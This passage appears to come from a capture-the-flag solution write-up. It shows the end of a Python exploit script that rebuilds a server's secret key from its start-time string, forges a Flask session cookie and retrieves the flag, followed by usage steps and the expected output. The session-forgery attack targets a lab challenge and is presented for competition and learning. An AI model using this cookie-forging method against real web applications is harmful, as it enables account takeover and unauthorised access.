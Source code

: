 ```python

    print('[*] Reconstructing secure key...')
    secure_key = get_secure_key(server_start_str)
    print('[*] Secure key obtained.')

    print('[*] Forging session cookie...')
    session_cookie = forge_session_cookie(secure_key)
    print('[*] Session cookie forged.')

    print('[*] Attempting to retrieve the flag...')
    get_flag(session_cookie)
```

**Usage:**

1. Ensure the required Python packages are installed:
   ```bash
   pip install requests flask beautifulsoup4
   ```

2. Run the exploit script:
   ```bash
   python solve.py
   ```

**Expected Output:**

```
[*] Retrieving server status...
[*] Server start time string: 20230922123456
[*] Reconstructing secure key...
[*] Secure key obtained.
[*] Forging session cookie...
[*] Session cookie forged.
[*] Attempting to retrieve the flag...
Flag: pctf{......}
```
